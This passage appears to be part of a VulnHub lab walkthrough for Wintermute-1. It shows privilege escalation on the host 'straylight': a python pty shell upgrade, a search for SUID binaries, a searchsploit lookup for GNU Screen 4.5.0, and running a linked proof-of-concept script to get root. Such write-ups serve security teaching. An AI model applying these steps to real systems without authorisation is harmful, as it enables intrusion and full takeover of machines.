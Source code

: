 ![](images/8.png)

## Privilege escalation

Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

### Binaries That AutoElevate

``` bash
www-data@straylight:/tmp$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
<snip>
www-data@straylight:/tmp$
```

### GNU Screen 4.5.0 exploit

``` bash
┌──(Hades㉿192.168.56.110)-[1.4:23.7]~
└─$ searchsploit screen 4.5.0
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation            | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)      | linux/local/41152.txt
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

At `/tmp` in the unix machine, I create 2 file `libhax.c` `rootshell.c` and run `poc.sh` to get root.

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1)

``` bash
bash poc.sh 2> /dev/null
```

![](images/9.png)

## Post Exploitation
